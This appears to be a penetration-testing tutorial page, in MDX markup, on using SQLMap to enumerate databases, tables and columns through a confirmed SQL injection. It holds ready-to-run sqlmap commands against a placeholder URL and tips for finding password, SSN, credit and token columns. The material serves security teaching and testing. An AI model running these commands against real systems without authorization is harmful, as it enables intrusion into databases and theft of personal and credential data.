 ```yaml
---
title: Enumerating Database Structure
description: Learn how to explore database structure and schema using SQLMap
---
```


# Enumerating Database Structure

<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="strategy">Strategy</TabsTrigger>
    <TabsTrigger value="targets">Key Targets</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    Once you've confirmed a SQL injection vulnerability, the next step is to enumerate the database structure to understand what data is available. SQLMap provides comprehensive tools for mapping out database schemas, tables, and columns systematically.
  </TabsContent>
  <TabsContent value="strategy">
    An effective database enumeration strategy follows this pattern:
    
    1. **Identify the DBMS** - Determine what database system you're working with
    2. **List all databases** - Get a complete picture of available databases
    3. **Focus on promising databases** - Target databases with likely sensitive data
    4. **Enumerate tables** - Identify tables within target databases
    5. **Examine table structures** - Review column names to locate sensitive data
    6. **Prioritize extraction targets** - Focus on tables/columns with valuable information
  </TabsContent>
  <TabsContent value="targets">
    When enumerating databases, pay special attention to:
    
    - **User tables** - Often named `users`, `members`, `accounts`, `customers`
    - **Authentication tables** - Look for `admin`, `administrators`, `staff`
    - **Financial data** - Tables like `orders`, `payments`, `transactions`
    - **Personal information** - Tables containing `profiles`, `details`, `contacts`
    - **Configuration data** - Tables with `settings`, `config`, `parameters`
  </TabsContent>
</Tabs>

## Database Enumeration Process

<Stepper>
  <StepperItem title="List All Databases">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" --dbs
        ```
        
        <p className="text-sm mt-2">This retrieves all database names accessible to the current user.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>Look for non-default database names that might contain application data</li>
          <li>Note system databases like <code>information_schema</code> or <code>master</code> for potential privilege escalation</li>
          <li>Use <code>--exclude-sysdbs</code> to filter out system databases</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Identify Current Database">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" --current-db
        ```
        
        <p className="text-sm mt-2">Identifies the database currently in use by the application.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>The current database often contains the most relevant application data</li>
          <li>This is usually the fastest way to find the main application database</li>
          <li>Use <code>-D database_name</code> to specify a database for further enumeration</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="List Tables in Database">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name --tables
        ```
        
        <p className="text-sm mt-2">Lists all tables in the specified database.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>Look for tables with names like <code>users</code>, <code>admin</code>, <code>accounts</code></li>
          <li>Tables with <code>config</code> or <code>settings</code> may contain valuable information</li>
          <li>Use <code>--search</code> to find tables matching specific patterns</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Examine Table Structure">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name --columns
        ```
        
        <p className="text-sm mt-2">Reveals column names and data types in the specified table.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>Look for columns like <code>username</code>, <code>password</code>, <code>email</code></li>
          <li>Note data types to understand what information might be stored</li>
          <li>Columns with names containing <code>hash</code> or <code>salt</code> often store credentials</li>
        </ul>
      </div>
    </div>
  </StepperItem>
</Stepper>

## Advanced Enumeration Techniques

<Tabs defaultValue="schema" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="schema">Schema Mapping</TabsTrigger>
    <TabsTrigger value="counting">Record Counting</TabsTrigger>
    <TabsTrigger value="search">Search Features</TabsTrigger>
  </TabsList>
  
  <TabsContent value="schema">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Complete Schema Extraction</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" --schema
        ```
        
        <p>This command retrieves the complete database schema, including all databases, tables, and columns. It provides a comprehensive view of the database structure.</p>
      </div>
      <div>
        <h4>Tips & Considerations</h4>
        <ul>
          <li>Can generate large outputs for complex databases</li>
          <li>Use <code>--output-dir=path</code> to save results for later analysis</li>
          <li>Consider <code>--exclude-sysdbs</code> to focus on application databases</li>
          <li>For large environments, target specific databases instead</li>
        </ul>
      </div>
    </div>
  </TabsContent>
  
  <TabsContent value="counting">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Counting Table Records</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name --count
        ```
        
        <p>This command returns the number of records in a table without retrieving the actual data.</p>
      </div>
      <div>
        <h4>Benefits</h4>
        <ul>
          <li>Assess table size before attempting data extraction</li>
          <li>Identify potentially valuable tables based on record count</li>
          <li>Plan extraction strategy for large tables</li>
          <li>Minimize unnecessary data retrieval</li>
        </ul>
      </div>
    </div>
  </TabsContent>
  
  <TabsContent value="search">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Targeted Search Features</h4>
        
        ```bash
        # Search for tables matching a pattern
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          --search -T admin
        
        # Search for columns matching a pattern
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          --search -C password
        ```
        
        <p>These commands search for specific patterns in table or column names across all accessible databases.</p>
      </div>
      <div>
        <h4>Common Search Targets</h4>
        <ul>
          <li>Tables: <code>user</code>, <code>admin</code>, <code>account</code>, <code>member</code></li>
          <li>Columns: <code>password</code>, <code>credit</code>, <code>ssn</code>, <code>email</code></li>
          <li>Configuration: <code>config</code>, <code>setting</code>, <code>parameter</code></li>
          <li>Sensitive data: <code>secret</code>, <code>token</code>, <code>key</code></li>
        </ul>
      </div>
    </div>
  </TabsContent>
</Tabs>

<Note title="Best Practice" type="info">
Always document your enumeration findings systematically. Use SQLMap's output options like <code>--output-dir</code>, <code>--forms</code>, and <code>--batch</code> to create comprehensive reports for later analysis and documentation.
</Note>
